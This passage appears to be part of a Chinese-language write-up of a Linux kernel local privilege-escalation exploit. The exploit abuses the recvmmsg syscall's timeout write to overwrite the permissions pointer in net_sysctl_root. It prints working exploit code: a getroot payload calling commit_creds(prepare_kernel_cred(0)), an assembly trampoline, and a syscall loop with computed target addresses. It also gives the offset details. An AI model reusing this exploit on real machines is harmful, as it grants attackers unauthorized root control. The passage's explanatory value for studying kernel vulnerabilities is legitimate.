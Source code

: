 提权代码是非常传统的内核提权代码，通过调用`commit_creds`修改进程`creds`数据结构。注意`commit_creds`和`prepare_kernel_cred`也是由特定于内核版本的内核地址信息获得，因此也包含在 offset 结构体中，需要依据特定的内核版本进行设定。

```
static int __attribute__((regparm(3)))
getroot(void *head, void * table)
{
    commit_creds(prepare_kernel_cred(0));
    return -1;
}

void __attribute__((regparm(3)))
trampoline()
{
    asm("mov $getroot, %rax; call *%rax;");
}

```

准备环境已经就绪，接下来就需要调用有漏洞的 __NR_recvmmsg 来进行地址修改。即修改`net_sysctl_root`中`permissions`指针的数值。

```
static struct ctl_table_root net_sysctl_root = {
        .lookup = net_ctl_header_lookup,
        .permissions = net_ctl_permissions,
};

```

而 ctl_table_root 的定义为：

```
struct ctl_table_root {
        struct ctl_table_set default_set;
        struct ctl_table_set *(*lookup)(struct ctl_table_root *root,
                                           struct nsproxy *namespaces);
        int (*permissions)(struct ctl_table_header *head, struct ctl_table *table);
};

```

通过计算`ctl_table_root`可知：`Permissions`的位置为`net_sysctl_root+96`。

这样依次使用系统调用的 timeout 将.permissions 的值的高 6*4 位从之前的 1 修改为 0 即可。

```
for(i=0;i < 3 ;i++) {
    udp(i);
    retval = syscall(__NR_recvmmsg, sockfd, msgs, VLEN, 0, (void *)off->dest+7-i);
    if(!retval) {
        fprintf(stderr,"\nrecvmmsg() failed\n");
    }
}

```

通过使用三次该系统调用，依次将`0xFF** **** **** ****`,`0x00FF **** **** ****`， `0x0000 FF** **** ****`的`FF`修改为`00`.
